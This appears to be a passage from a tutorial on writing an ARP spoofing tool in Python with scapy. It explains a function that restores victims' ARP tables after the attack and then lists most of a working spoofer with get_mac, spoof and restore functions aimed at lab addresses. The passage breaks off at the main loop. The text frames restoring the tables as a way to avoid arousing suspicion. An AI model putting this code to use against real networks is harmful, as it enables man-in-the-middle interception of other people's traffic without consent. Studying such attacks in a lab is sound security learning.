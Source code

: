 Each computer have an *ARP-Table* which links IP address of same network to their MAC address but then we run the *arp spoof attack* the table got alter by the attacker's  MAC address in the place of router's MAC even after you quit the program in order to resolve this issue we need to restore the *ARP-Table* as it was before the attack in order to that we need send again two more *ARP Responses* after we quit the program which send the original MAC address instead of fooling them so lets define a function

```python
def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

```
We defined function restore to correct ARP tables this function is quite similar to the spoof function the only differnce is in the fields we define
*hwsrc=source_mac* manually otherwise it will take system MAC which doesn't make any sense  and we also define more field *count=4* in send method in order to send it proper no of time and the correct the ARP table.

>Now our all problem are  solved which could cause suspicion  we can add error handling feature to the code because incase while spoofing and interuption can cause error to the attack so it's better to add error handling.

```python
#!/usr/bin/env python

import scapy.all as scapy
import time
import sys


def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]

    return answered_list[0][1].hwsrc




def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

target_ip= "10.0.2.7"
gateway_ip = "10.0.2.1"



try:
    sent_packets_count = 0
    while True:
```